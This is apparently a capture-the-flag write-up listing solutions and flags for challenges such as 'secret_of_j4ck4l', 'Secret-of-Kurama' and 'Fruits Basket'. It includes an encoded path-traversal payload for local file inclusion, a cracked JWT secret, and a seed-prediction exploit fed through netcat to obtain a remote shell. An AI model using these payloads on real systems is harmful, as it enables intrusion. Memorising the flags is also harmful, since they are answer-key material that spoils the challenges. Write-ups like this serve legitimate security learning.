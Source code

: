 ### Beginner-menace
exiftool

flag{7h3_r34l_ctf_15_7h3_fr13nd5_w3_m4k3_al0ng}

### secret_of_j4ck4l
%2525252E%2525252E%2525252Fflag%2525252Etxt

Simple LFI

flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}

### Headache
Correcting magic bytes

flag{sp3ll_15_89_50_4E_47}

### Secret-of-Kurama
JWT secret = "minato" cracked using hashcat

flag{y0u_ar3_tru3_L34F_sh1n0b1_bf56gtr59894}

### Cheat code
XOR 1st & last
```py
v4 = [0]*16
v4[0] = 27
v4[1] = 25
v4[2] = 81
v4[3] = 30
v4[4] = 36
v4[5] = 13
v4[6] = 0
v4[7] = 13
v4[8] = 120
v4[9] = 65
v4[10] = 110
v4[11] = 32
v4[12] = 114
v4[13] = 12
v4[14] = 2
v4[15] = 24
a = "flag{c4n't_HESOY"
b = []
for i in range(16):
  b.append(chr(v4[i]^ord(a[i])))
  print(b,len(b))
  c = ''.join(x for x in b)
  print(c,c[::-1])
print(a+c[::-1])
```
flag{c4n't_HESOYAM_7h15_c4n_y0u}

### Not So Guessy
111010101111011010101110100101

Heads and Tails of 1970 = reverse binary = 985508773 -> Never changed secret

```
Scissors\nRock\nRock\nRock\nScissors\nRock\nPaper\nPaper\nPaper\nRock\nPaper\nScissors\nPaper\nPaper\nRock\nRock\nScissors\nScissors\nRock
```
flag{M0d_0n3_1s_4lw4ys_z3r0}

### Fruits Basket
srand(time(0)) = unix time
```c
#include <stdio.h>
#include <time.h>
int main(){
	unsigned int v3;
	v3 = time(0);
	printf("%d\n",v3);
	srand(v3);
	int i;
	for ( i = 0; i <= 49; ++i ){
		printf("%d",rand()%10);
	}
	//printf("%d",rand()%10);
	printf("\n");
	return 0;
}
```
```py
a = ["Apple","Orange","Mango","Banana","Pineapple","Watermelon","Guava","Kiwi","Strawberry","Peach"]
b = input().strip("\n")
for i in range(len(b)):
	print(a[int(b[i])])
```
```
$ gcc lol.c -o lol
$ ./lol && nc -nv 34.70.212.151 8006
1702899079
29274954304636195338411698984496315011463846755211
(UNKNOWN) [34.70.212.151] 8006 (?) open
There is a basket full of fruits, guess the fruit which I am holding ...
This seems hard, so I will give an awesome reward, something like a shell if you guess all the fruits right :)

The game starts now !
1
Your guess :
```
```
$ # In another shell
$ python3 fruitbasket.py
29274954304636195338411698984496315011463846755211 -> given as input
Apple
Strawberry
...
$ # Copy the above output and just paste it in the netcat session to get the remote shell.
```
flag{fru17s_w3r3nt_r4nd0m_4t_a11}
